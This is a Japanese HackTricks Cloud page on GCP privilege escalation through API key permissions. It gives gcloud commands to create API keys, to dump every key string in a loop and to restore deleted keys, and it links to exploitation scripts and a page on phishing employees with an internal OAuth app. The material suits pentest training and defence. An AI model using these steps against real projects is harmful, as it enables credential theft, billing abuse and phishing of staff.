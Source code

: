 # GCP - Apikeys Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください。
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## Apikeys

以下の権限はAPIキーを作成し、盗むのに役立ちます。ドキュメントからのこの注記に注意してください：_APIキーは、**任意のプリンシパルなしにアプリケーションを識別する**単純な暗号化された文字列です。これらは**公開データに匿名でアクセスする**ために役立ち、APIリクエストをクォータと**請求**のためにプロジェクトに**関連付ける**ために使用されます。_

したがって、APIキーを使用すると、APIの使用料金をその会社に支払わせることができますが、権限を昇格させることはできません。

APIキーに関する詳細は以下をチェックしてください：

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

### APIキーへのブルートフォースアクセス <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

プロジェクトで有効になっているAPIや見つけたAPIキーに適用されている制限がわからない場合は、ツール[**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner)を実行し、**APIキーで何にアクセスできるか**を確認すると良いでしょう。

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

この権限は**APIキーを作成する**ことを可能にします：
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
以下は、自動化スクリプトに関する内容です。[**脆弱な環境の作成、悪用、およびクリーニングを自動化するスクリプトはこちら**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/b-apikeys.keys.create.sh)で見つけることができます。

{% hint style="danger" %}
デフォルトでは、ユーザーには新しいプロジェクトを作成する権限があり、新しいプロジェクトに対してOwnerロールが付与されます。したがって、ユーザーは**プロジェクトを作成し、そのプロジェクト内にAPIキーを作成する**ことができます。
{% endhint %}

### `apikeys.keys.getKeyString`, `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

これらの権限により、**すべてのapiKeysをリスト表示し、Keyを取得する**ことができます：
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
以下は、[**脆弱な環境の作成、悪用、およびクリーニングを自動化するスクリプト**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh)を見つけることができます。

### `apikeys.keys.undelete`, `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

これらの権限により、**削除されたAPIキーをリストアップし、再生成することができます**。**APIキーは、undelete** 完了後に**出力で与えられます**：
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### 社内のOAuthアプリケーションを作成して他の従業員をフィッシングする

このアクションは **`clientauthconfig`** サービスに属していますが、方法については以下のページを確認してください[ドキュメントによると](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{% content-ref url="../../workspace-security/gws-google-platforms-phishing/" %}
[gws-google-platforms-phishing](../../workspace-security/gws-google-platforms-phishing/)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

